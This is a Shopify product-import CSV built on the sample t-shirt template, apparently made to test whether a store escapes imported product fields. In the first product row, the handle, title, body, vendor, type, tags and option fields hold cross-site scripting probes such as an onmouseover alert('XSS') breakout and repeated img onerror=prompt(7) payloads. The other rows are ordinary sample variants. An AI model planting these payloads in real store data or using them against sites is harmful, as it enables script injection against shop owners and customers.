 Handle,Title,Body (HTML),Vendor,Type,Tags,Published,Option1 Name,Option1 Value,Option2 Name,Option2 Value,Option3 Name,Option3 Value,Variant SKU,Variant Grams,Variant Inventory Tracker,Variant Inventory Qty,Variant Inventory Policy,Variant Fulfillment Service,Variant Price,Variant Compare At Price,Variant Requires Shipping,Variant Taxable,Variant Barcode,Image Src,Image Alt Text,Gift Card,Google Shopping / MPN,Google Shopping / Age Group,Google Shopping / Gender,Google Shopping / Google Product Category,SEO Title,SEO Description,Google Shopping / AdWords Grouping,Google Shopping / AdWords Labels,Google Shopping / Condition,Google Shopping / Custom Product,Google Shopping / Custom Label 0,Google Shopping / Custom Label 1,Google Shopping / Custom Label 2,Google Shopping / Custom Label 3,Google Shopping / Custom Label 4,Variant Image,Variant Weight Unit
asd"/><img src="asD" onmouseover="alert('XSS');"//,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,TRUE,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,,,,,,3629,,1,deny,manual,25,,TRUE,TRUE,,http://cdn.shopify.com/s/images/shopify_shirt.png?e6948ca4d9028f9e734b8202cc472e3b89aae0f3,A black t-shirt with the shopify logo,FALSE,7X8ABC910,Adult,Unisex,Apparel & Accessories > Clothing,Our awesome T-shirt in 70 characters or less.,A great description of your products in 160 characters or less,T-shirts,"cotton, pre-shrunk",used,FALSE,,,,,,,
example-t-shirt,,,,,,,Title,Small,,,,,example-shirt-s,200,,1,deny,manual,19.99,24.99,TRUE,TRUE,,,,,,,,,,,,,,,,,,,,,
example-t-shirt,,,,,,,Title,Medium,,,,,example-shirt-m,200,shopify,1,deny,manual,19.99,24.99,TRUE,TRUE,,,,,,,,,,,,,,,,,,,,,
